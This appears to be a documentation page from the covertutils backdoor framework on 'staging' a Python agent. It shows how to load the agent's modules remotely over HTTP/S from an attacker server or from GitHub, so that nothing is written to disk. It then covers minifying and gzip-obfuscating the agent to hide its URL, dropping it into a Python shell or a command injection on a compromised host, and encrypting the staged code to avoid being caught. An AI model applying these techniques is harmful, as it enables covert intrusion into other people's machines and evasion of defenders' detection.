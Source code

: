 Staging Python code
===================


So, you coded the whole sophisticated backdoor, and it is like 500 Lines-of-Code. With 500 locs it must be a great, super stealth backdoor!

But now what? How do you pack the *Agent* with the whole ``covertutils`` package, to a single Python file?

After some research you could find some solutions. Most of them working.

	- Stickytape_
	-	`The __main__.py Zip archive trick`__
	- ... all kinds of StackOverflow_ questions ...

.. _Stickytape : https://github.com/mwilliamson/stickytape
.. _ziptrick : http://blog.ablepear.com/2012/10/bundling-python-files-into-stand-alone.html
.. _StackOverflow : https://stackoverflow.com/search?q=python+single+script

__  ziptrick_


The problem with them is that they **all require something to be written to disk**.



Step Zero - The httpimport_ module
+++++++++++++++++++++++++++++++++++++

For this purpose I authored the ``httpimport`` module. This module enables a Python script to **remotely import any module or package** through HTTP/S.

It resides in my Github_, where you can find both *documentation* and *usage examples*. It is a single file module, the ``httpimport.py``, which is also *Py2/3 compatible* - just for the hell of it.

.. _Github : https://github.com/operatorequals/httpimport
.. _httpimport : https://github.com/operatorequals/httpimport


Step One - Code *CopyPasta*
+++++++++++++++++++++++++++

Given that the ``unstaged_agent.py`` is the file that contains the awesome 500 loc *Agent* that uses `covertutils`. Execute the following:

.. code :: bash

	curl https://raw.githubusercontent.com/operatorequals/httpimport/master/httpimport.py | sed 's#log.*#pass#g' | grep -v "import pass" > staged_agent.py
	cat unstaged_agent.py >> staged_agent.py

Now the ``staged_agent.py`` consists both of a copy of the ``httpimport`` module and the awesome super cool 500 loc ``covertutils`` *Agent*

.. note ::
	The ``sed`` and ``grep`` magic ensures that all log lines of ``httpimport`` (containing strings). This way the script can be further minified.

Step Two - Create a *Python HTTP/S Repo*
++++++++++++++++++++++++++++++++++++++++

Follow instructions in ``httpimport`` README file for that.
Generally it can be summed up to a :

.. code :: bash

	$ python -m SimpleHTTPServer

in the directory where the ``covertutils`` package is available.

.. warning :: **Implications**

	This Server must work from a host which is *HTTP/S accessible to the compromised machine* (the one where the *Agent* will run on).

Note the ``IP`` and ``PORT`` of the ``SimpleHTTPServer``.


Step Three - Wrap ``import`` statements
+++++++++++++++++++++++++++++++++++++++

Assemble the HTTP/S URL of the *Python HTTP/S Repo* like:

.. code ::

	http://server_ip:server_port/

Skim through the code in ``staged_agent.py`` and wrap every ``covertutils`` import block of code with a ``with`` statement as follows :

.. code :: python

	from covertutils.handlers import InterrogatingHandler, FunctionDictHandler
	from covertutils.handlers.impl import StandardShellHandler
	from covertutils.orchestration import StegoOrchestrator
	from covertutils.datamanipulation import asciiToHexTemplate

has to become:

.. code :: python

	with remote_repo(["covertutils"], "http://localhost:8000/") :
		from covertutils.handlers import InterrogatingHandler, FunctionDictHandler
		from covertutils.handlers.impl import StandardShellHandler
		from covertutils.orchestration import StegoOrchestrator
		from covertutils.datamanipulation import asciiToHexTemplate


If you come up with a script for this (entirely possible and funny task) please open a *Github Issue*! Or simply *Pull Request* it - it's already accepted!


.. note ::

	If ``covertutils`` is the only module that you want to *remotely import* you can use Github as the *Python HTTP/S Repo*!
	Just use the ``github_repo`` *context* of ``httpimport`` instead of ``remote_repo``:

	.. code :: python

		with github_repo( 'operatorequals', 'covertutils' ) :
			from covertutils.handlers import InterrogatingHandler, FunctionDictHandler
			from covertutils.handlers.impl import StandardShellHandler
			from covertutils.orchestration import StegoOrchestrator
			from covertutils.datamanipulation import asciiToHexTemplate

	This will ensure that you get the last ``covertutils`` running on the compromised host,
	as well as a not suspicious TLS connection to a **well-known website**! Reputation of Github is too damn high!



Step Three *'n' a half* - Obfuscation
+++++++++++++++++++++++++++++++++++++

Pyminify_ the ``staged_agent.py``. You have a *URL* in there. At least make it difficult to see with ``strings``!


You can try:

.. code :: bash

	pyminifier --obfuscate-builtins --obfuscate-classes --obfuscate-variables staged_agent.py > staged_agent.min.py


This step is **really usefull** as it will remove all comments and License strings, making the code *smaller* and *unreadable* (but functional).

It is also useful to use a ``--gzip``/``--bzip2`` argument as well, to mangle all ``strings`` and minify *even more*!

Check the ``wc`` output (byte size in third column) of the ``gzip`` against ``plain`` outputs:

.. code :: bash

	$ pyminifier  --obfuscate-builtins --obfuscate-classes --obfuscate-variables staged_agent.py > staged_agent.min.py
	$ wc staged_agent.min.py
	 188  381 4402 staged_agent.min.py
	$
	$ pyminifier --gzip --obfuscate-builtins --obfuscate-classes --obfuscate-variables staged_agent.py > staged_agent.min.gzip.py
	$ wc staged_agent.min.gzip.py
	   4    9 2461 staged_agent.min.gzip.py


.. _Pyminify : http://liftoff.github.io/pyminifier/


Step Four - Pack it to an executable *(or not)* / **Use it**
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

The ``staged_agent.min.py`` will remotely load all needed ``covertutils`` modules using an HTTP/S connection to the URL specified.
It doesn't contain any ``covertutils`` code by itself.
No code will be written to disk. **Not even Temporary files**. You can audit the ``httpimport`` module. It contains *no IO system calls*.

So packing to EXE and ELF should work without much hassle, as described in :ref:`native_execs_page`.
Dropping it to a *Python shell* or a *Python command injection* should work as well.



Step FIVE - Improvise
+++++++++++++++++++++

Passing code back and forth with HTTP/S is not really bright - even if it works.
In case the code gets intercepted, it can be inspected (apart from changed). If the *code gets caught*, **we get caught**.

But the code can be **encrypted**!

And encrypted with ciphers found in ``covertutils.crypto.keys``. It can also be signed with scrambling algorithms in ``covertutils.crypto.algorithms``.

And those subpackages can be loaded remotely too. Or minified and used on-the-spot.

The road for a **Staging Protocol** is *Open*. And an HTTP/S proxy which
automatically **obfuscates-encrypts-signs** all requests for Python code wouldn't be so difficult, using only ``covertutils`` as a dependency.
It would also work with ``httpimport`` out-of-the-box!

Wouldn't it be elegant...
